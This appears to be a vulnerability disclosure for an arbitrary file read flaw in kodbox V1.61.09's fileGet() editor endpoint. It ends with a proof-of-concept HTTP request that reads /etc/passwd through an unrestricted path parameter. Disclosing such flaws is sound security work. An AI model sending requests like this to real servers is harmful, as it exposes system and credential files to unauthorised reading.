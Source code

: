 # Vendor

kalcaddle

# Product

kodbox

# version

V1.61.09

# Download 

https://github.com/kalcaddle/kodbox

# Vulnerability

Arbitrary File Read

# Description

The root of the vulnerability lies within the `fileGet()` method in the `app/controller/explorer/editor.class.php` file,users can Read any file on the server.

# Analysis

The root of the vulnerability lies within the `fileGet()` method in the `app/controller/explorer/editor.class.php` file.

No restrictions are imposed on read files

<img width="676" height="214" alt="image" src="https://github.com/user-attachments/assets/fc3f01d5-01b5-4b0a-9e7a-1fcb7d163ba7" />

Recurrence of vulnerabilities：

<img width="1024" height="814" alt="image" src="https://github.com/user-attachments/assets/84bde8fc-cd02-4a0f-bcb2-6ad3ddd3faa0" />


# POC
```
POST /?explorer/editor/fileGet HTTP/1.1
Host: 192.168.1.88:8088
Content-Type: application/x-www-form-urlencoded
Cookie: CSRF_TOKEN=1; KOD_SESSION_ID=1314466bdb917162b6e85d75d7912cdd;
Connection: keep-alive
Content-Length: 83

path=/etc/passwd&base64=0&page=1&CSRF_TOKEN=1&API_ROUTE=explorer%2Feditor%2FfileGet

```
